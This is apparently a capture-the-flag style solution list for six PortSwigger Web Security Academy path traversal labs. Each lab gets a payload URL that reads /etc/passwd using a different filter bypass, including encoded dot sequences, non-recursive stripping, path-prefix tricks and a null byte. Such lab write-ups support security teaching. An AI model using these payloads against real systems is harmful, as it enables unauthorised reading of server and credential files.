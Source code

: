 # 01. File path traversal, simple case
[Link...](https://portswigger.net/web-security/file-path-traversal/lab-simple)
## Solution
`https://aca21fe01e7e5ce9c052bb0e007d00c4.web-security-academy.net/image?filename=../../../etc/passwd`

# 02. File path traversal, traversal sequences blocked with absolute path bypass
[Link...](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass)
## Solution
The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory:
`https://acc31fe31eb9229dc0fe134200be0008.web-security-academy.net/image?filename=/etc/passwd`

# 03. File path traversal, traversal sequences stripped non-recursively
[Link...](https://portswigger.net/web-security/file-path-traversal/lab-sequences-stripped-non-recursively)
## Solution
The application strips path traversal sequences from the user-supplied filename before using it:
`https://acb41feb1f41594dc01d4bf6000a0096.web-security-academy.net/image?filename=....//....//....//etc/passwd` 

OR 

`https://acb41feb1f41594dc01d4bf6000a0096.web-security-academy.net/image?filename=..././..././..././etc/passwd`

# 04. File path traversal, traversal sequences stripped with superfluous URL-decode
[Link...](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)
## Solution
The application blocks input containing path traversal sequences. It then performs a URL-decode of the input before using it.
`https://accd1f611ff1738fc0de4df100450016.web-security-academy.net/image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd`

# 05. File path traversal, validation of start of path
[Link...](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)
## Solution
The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.
`https://acc01f791e1b1386c0b7cf9600570084.web-security-academy.net/image?filename=/var/www/images/../../../etc/passwd`

# 06. File path traversal, validation of file extension with null byte bypass
[Link...](https://portswigger.net/web-security/file-path-traversal/lab-validate-file-extension-null-byte-bypass)
## Solution
The application validates that the supplied filename ends with the expected file extension.
`https://ac451fcd1ed978b4c0735e8800d40032.web-security-academy.net/image?filename=../../../etc/passwd%00.jpg`
